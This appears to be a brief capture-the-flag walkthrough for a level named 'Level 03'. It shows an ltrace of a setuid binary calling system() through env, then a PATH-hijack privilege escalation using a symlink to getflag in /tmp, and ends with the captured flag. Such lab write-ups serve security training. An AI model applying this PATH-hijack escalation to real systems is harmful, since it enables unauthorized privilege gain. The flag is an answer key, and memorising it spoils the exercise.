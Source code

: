 # Level 03

- `ltrace ./level03`
<pre>
__libc_start_main(0x80484a4, 1, 0xffb03b24, 0x8048510
getegid()                                 = 1000
geteuid()                                 = 1000
setresgid(1000, 1000, 1000, 0xf7d42d15)   = 0
setresuid(1000, 1000, 1000, 0xf7d42d15)   = 0
<strong>system("/usr/bin/env echo Exploit me")   = 0</strong> 
--- SIGCHLD (Child exited) ---
+++ exited (status 0) +++
</pre>
- `ln -s /bin/getflag /tmp/echo`
- `PATH=/tmp ./level03`
- flag: `qi0maab88jeaj46qoumi7maus`
